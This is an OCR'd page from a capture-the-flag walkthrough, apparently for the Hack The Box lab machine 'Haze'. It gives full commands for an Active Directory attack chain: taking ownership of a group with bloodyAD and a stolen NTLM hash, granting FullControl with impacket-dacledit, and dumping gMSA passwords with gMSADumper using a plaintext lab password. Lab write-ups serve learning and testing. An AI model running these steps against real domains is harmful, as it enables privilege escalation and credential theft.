 **19.1** INFO: Change OWNER to Haze-IT-Backup

**RUN on Kali VM:** **bloodyAD \--host \"10.10.11.61\" -d \"haze.htb\"
-u \"Haze-IT-Backup\$\" -p \": a70df6599d5eab1502b38f9c1c3fd828\" set
owner SUPPORT_SERVICES Haze-IT-Backup\$**

![](images/media/image31.png){width="6.3in"
height="0.34305555555555556in"}

**19.2** INFO: **[Add FULL PERMISSION to yourself]{.mark}**

**DACL=Directonary Access Control List**

**RUN:** **impacket-dacledit -action write -rights FullControl
-principal \'Haze-IT-Backup\$\' -target-dn
\'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB\' -dc-ip 10.10.11.61
\"haze.htb/Haze-IT-Backup\$\" -hashes
\':a70df6599d5eab1502b38f9c1c3fd828\'**

**[IMPORTANT: If these ERROR appears]{.mark}**

![](images/media/image32.png){width="6.298611111111111in"
height="0.6777777777777778in"}

**RERUN STEPS 15.6, 15.7 & 19.1:**

**RUN loggedin with POWERSHELL:** **Set-ADServiceAccount -Identity
\"Haze-IT-Backup\$\" -PrincipalsAllowedToRetrieveManagedPassword
\"mark.adams\"**

**??RUN in Kali VM: python gMSADumper.py -u \'mark.adams\' -p
\'Ld@p_Auth_Sp1unk@2k24\' -d haze.htb**

**RUN loggedin with POWERSHELL: Get-ADServiceAccount -Identity
\"Haze-IT-Backup\$\" -Properties
PrincipalsAllowedToRetrieveManagedPassword**

![](images/media/image33.png){width="6.29375in"
height="1.132638888888889in"}
